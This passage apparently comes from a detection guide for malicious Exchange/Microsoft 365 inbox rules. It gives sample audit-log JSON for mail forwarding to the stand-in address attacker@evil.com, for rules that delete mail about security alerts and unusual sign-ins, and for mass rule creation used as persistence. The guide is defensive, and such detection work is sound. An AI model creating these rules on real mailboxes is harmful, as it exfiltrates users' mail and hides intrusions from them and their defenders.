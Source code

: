 ```json
      "Name": "ForwardTo",
      "Value": "attacker@evil.com"
    },
    {
      "Name": "Enabled", 
      "Value": "True"
    }
  ]
}
```

### 2.2 Security Alert Suppression Rules

**Description**: 
Rules created to move/delete security alerts and audit notifications.

**Audit Operations**:
- Set-InboxRule
- UpdateInboxRules 

**Example Audit Log**:
```json
{
  "CreationTime": "2024-01-20T16:14:22",
  "Operation": "Set-InboxRule",
  "UserKey": "johndoe@company.com",
  "Parameters": [
    {
      "Name": "MoveToFolder",
      "Value": "Deleted Items"
    },
    {
      "Name": "SubjectContainsWords",
      "Value": "Security alert;Unusual sign-in;Suspicious"
    }
  ]
}
```

### 2.3 Mass Rule Creation

**Description**:
Bulk creation of rules to establish persistence across multiple mailboxes.

**Audit Operations**:
- New-InboxRule
- UpdateInboxRules

**Example Audit Log**:
```json
{
  "CreationTime": "2024-01-20T14:00:00", 
  "Operation": "UpdateInboxRules",
  "UserKey": "admin@company.com",
  "Parameters": [
    {
      "Name": "Identity",
      "Value": "Multiple Users"
    },
    {
      "Name": "Force",
      "Value": "True" 
    }
  ]
}
```